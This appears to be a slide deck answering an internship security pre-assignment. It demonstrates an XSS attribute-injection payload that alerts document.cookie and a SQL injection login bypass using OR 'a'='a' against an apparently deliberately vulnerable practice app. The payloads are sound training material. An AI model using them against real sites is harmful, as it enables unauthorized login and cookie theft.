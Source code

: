 # VOYAGE GROUP 1day Intern

## Answer for Pre Assignment

Tamrin007(Shun Tamura)

#HSLIDE

## Q1. XSS

#VSLIDE

ユーザ名にスペースを含めて送信すると、  
スペース以降の文字が `input` タグの属性として埋め込まれる

#VSLIDE

### Answer

- 入力

![xss_input](pitch_img/xss_input.png)

- 入力を送信後の `input` タグ

```html
<input id="username" type="text" name="username"
 value="hoge" onfocus="alert(document.cookie);">
```

#VSLIDE

### Result

![xss_result](pitch_img/xss_result.png)

#HSLIDE

## Q2. SQL Injection

適当な文字をユーザ名として入力すると、  
フレームワークのエラー画面が現れ、  
どのようにユーザ入力から SQL を組み立てているか分かる

![sql_debug](pitch_img/sql_debug.png)

#VSLIDE

- パスワードはハッシュ化して組み立てているのでどうにもできなさそう
- 入力文字列は `'` で囲われる
- `WHERE` 句の `AND 'password'` を無効化したい

#VSLIDE

### Answer

- 入力

![sql_input](pitch_img/sql_input.png)

- 生成される SQL

```sql
SELECT u.id FROM example_user u
WHERE username = 'co3k'
OR 'a'='a' AND password = 'hash' LIMIT 1;
```

#VSLIDE

### Result

![sql_result](pitch_img/sql_result.png)
